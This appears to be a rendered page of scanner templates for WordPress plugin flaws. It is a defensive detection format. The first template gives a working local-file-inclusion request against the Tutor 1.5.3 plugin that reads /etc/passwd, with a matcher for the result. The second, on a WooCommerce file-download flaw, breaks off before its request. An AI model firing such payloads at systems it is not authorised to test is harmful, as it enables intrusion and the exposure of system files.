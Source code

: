 **Type - status**

- status
  1. 200

---

# WordPress tutor 1.5.3 - Local File Inclusion

## Description

- WordPress tutor.1.5.3 is vulnerable to local file inclusion.
- severity - high
- tags - wordpress,wp-plugin,lfi,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/tutor/views/pages/instructors.php?sub_page=/etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
- part - body

---

# Product Input Fields for WooCommerce \< 1.2.7 - Unauthenticated File Download

## Description

- WordPress WooCommerce \< 1.2.7 is susceptible to file download vulnerabilities. The lack of authorization checks in the handle_downloads() function hooked to admin_init() could allow unauthenticated users to download arbitrary files from the blog using a path traversal payload.

- severity - high
- tags - wordpress,woocommerce,lfi,wp-plugin,wp

## Requests

- Method - GET

### URL
